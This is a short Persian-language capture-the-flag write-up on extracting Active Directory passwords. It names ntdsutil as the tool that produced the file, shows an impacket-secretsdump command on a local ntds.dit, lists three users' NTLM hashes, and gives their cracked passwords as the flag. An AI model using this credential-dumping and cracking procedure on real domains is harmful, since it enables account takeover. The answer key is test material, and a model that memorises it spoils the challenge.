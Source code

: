  استخراج کلمات عبور از اکتیو دایرکتوری
1402-10-14 06:21

یکی از روش های استخراج اطلاعات از اکتیودایرکتوری، استفاده از ابزارهای داخلی آن است. در این بخش بوسیله یکی از ابزارهای داخلی اکتیودایرکتوری، اطلاعات مربوط به اکانت ها استخراج شده است. با بررسی فایل این چالش به سوالات زیر پاسخ دهید.

[information]=(https://challenginno.ir/pdf_challenge/network/password-attack/AD.pdf)

1-این فایل بوسیله چه ابزاری استخراج شده است؟ 

**ntdsutil**

2-کلمه عبور کاربران زیر را بدست آورید:
Ali Ahmadi
Hassan Tavakoli
Mohsen Fadaee
کلمات عبور را به ترتیب و با یک خط فاصله در فلگ وارد نمایید:
12345-123456-123456 


[information]=(/usr/bin/impacket-secretsdump -system SYSTEM -security SECURITY -ntds ntds.dit local
)



a.ahmadi:1106:aad3b435b51404eeaad3b435b51404ee:247abad259a4bd192da8560327f15aa6:::
h.tavakoli:1105:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::
m.fadaee:1107:aad3b435b51404eeaad3b435b51404ee:ae974876d974abd805a989ebead86846:::

A@123456-P@ssw0rd-P@ssw0rd1

https://crackstation.net/
